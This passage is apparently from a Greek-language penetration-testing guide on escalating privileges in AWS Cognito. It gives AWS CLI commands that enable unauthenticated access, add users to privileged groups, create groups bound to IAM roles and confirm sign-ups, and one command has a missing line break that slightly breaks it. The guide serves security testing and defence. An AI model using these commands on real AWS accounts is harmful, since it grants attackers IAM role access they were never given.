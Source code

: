 ```bash
# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```
Είναι επίσης δυνατό να **καταχραστεί αυτή η άδεια για να επιτραπεί η βασική αυθεντικοποίηση**:
```bash
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
--allow-unauthenticated-identities
--allow-classic-flow
```
**Πιθανές Επιπτώσεις**: Συμβιβασμός του διαμορφωμένου αυθεντικοποιημένου IAM ρόλου μέσα στην πισίνα ταυτότητας.

### `cognito-idp:AdminAddUserToGroup`

Αυτή η άδεια επιτρέπει να **προσθέσετε έναν χρήστη Cognito σε μια ομάδα Cognito**, επομένως ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια για να προσθέσει έναν χρήστη υπό τον έλεγχό του σε άλλες ομάδες με **καλύτερες** προνόμια ή **διαφορετικούς IAM ρόλους**:
```bash
aws cognito-idp admin-add-user-to-group \
--user-pool-id <value> \
--username <value> \
--group-name <value>
```
**Πιθανές Επιπτώσεις:** Privesc σε άλλες ομάδες Cognito και IAM ρόλους που συνδέονται με τις Ομάδες User Pool.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε **να δημιουργήσει/ενημερώσει ομάδες** με **κάθε IAM ρόλο που μπορεί να χρησιμοποιηθεί από έναν συμβιβασμένο Cognito Identity Provider** και να κάνει έναν συμβιβασμένο χρήστη μέλος της ομάδας, αποκτώντας πρόσβαση σε όλους αυτούς τους ρόλους:

{% code overflow="wrap" %}
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Privesc σε άλλους ρόλους IAM του Cognito.

### `cognito-idp:AdminConfirmSignUp`

Αυτή η άδεια επιτρέπει να **επιβεβαιωθεί μια εγγραφή**. Από προεπιλογή, οποιοσδήποτε μπορεί να συνδεθεί σε εφαρμογές Cognito, αν αυτό αφεθεί, ένας χρήστης θα μπορούσε να δημιουργήσει έναν λογαριασμό με οποιαδήποτε δεδομένα και να τον επιβεβαιώσει με αυτή την άδεια.
```bash
aws cognito-idp admin-confirm-sign-up \
--user-pool-id <value> \
--username <value>
```
**Πιθανές Επιπτώσεις:** Έμμεση privesc στον ρόλο IAM της πιστοποίησης ταυτότητας για αυθεντικοποιημένους χρήστες αν μπορείτε να εγγραφείτε ως νέος χρήστης. Έμμεση privesc σε άλλες λειτουργίες της εφαρμογής που επιτρέπουν την επιβεβαίωση οποιουδήποτε λογαριασμού.

